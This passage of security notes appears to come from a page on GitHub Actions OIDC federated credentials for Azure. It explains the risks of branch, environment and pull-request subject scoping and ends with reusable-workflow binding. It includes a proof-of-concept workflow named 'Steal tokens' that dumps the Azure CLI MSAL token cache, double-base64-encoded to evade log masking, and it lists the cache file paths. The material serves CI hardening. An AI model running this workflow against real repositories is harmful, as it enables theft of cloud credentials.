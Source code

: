 Note: Colons in environment names are URL‑encoded (%3A), removing older delimiter‑injection tricks against sub parsing. However, using non‑unique subjects (e.g., only environment:<name>) is still unsafe.

## Scoping and risks of FIC subject types

- Branch/Tag: sub=repo:<org>/<repo>:ref:refs/heads/<branch> or ref:refs/tags/<tag>
  - Risk: If the branch/tag is unprotected, any contributor can push and obtain tokens.
- Environment: sub=repo:<org>/<repo>:environment:<env>
  - Risk: Unprotected environments (no reviewers) allow contributors to mint tokens.
- Pull request: sub=repo:<org>/<repo>:pull_request
  - Highest risk: Any collaborator can open a PR and satisfy the FIC.

PoC: PR‑triggered token theft (exfiltrate the Azure CLI cache written by azure/login):

```yaml
name: Steal tokens
on: pull_request
permissions:
  id-token: write
  contents: read
jobs:
  extract-creds:
    runs-on: ubuntu-latest
    steps:
      - name: azure login
        uses: azure/login@v2
        with:
          client-id: ${{ secrets.AZURE_CLIENT_ID }}
          tenant-id: ${{ secrets.AZURE_TENANT_ID }}
          subscription-id: ${{ secrets.AZURE_SUBSCRIPTION_ID }}
      - name: Extract access token
        run: |
          # Azure CLI caches tokens here on Linux runners
          cat /home/runner/.azure/msal_token_cache.json | base64 -w0 | base64 -w0
# Decode twice locally to recover the bearer token
```

Related file locations and notes:
- Linux/macOS: ~/.azure/msal_token_cache.json holds MSAL tokens for az CLI sessions
- Windows: msal_token_cache.bin under user profile; DPAPI‑protected

## Reusable workflows and job_workflow_ref scoping

Calling a reusable workflow adds job_workflow_ref to the GitHub ID token, e.g.:

```
ndc-security-demo/reusable-workflows/.github/workflows/reusable-file-upload.yaml@refs/heads/main
```

FIC example to bind both caller repo and the reusable workflow:

```
sub=repo:<org>/<repo>:job_workflow_ref:<org>/<reusable-repo>/.github/workflows/<file>@<ref>
```
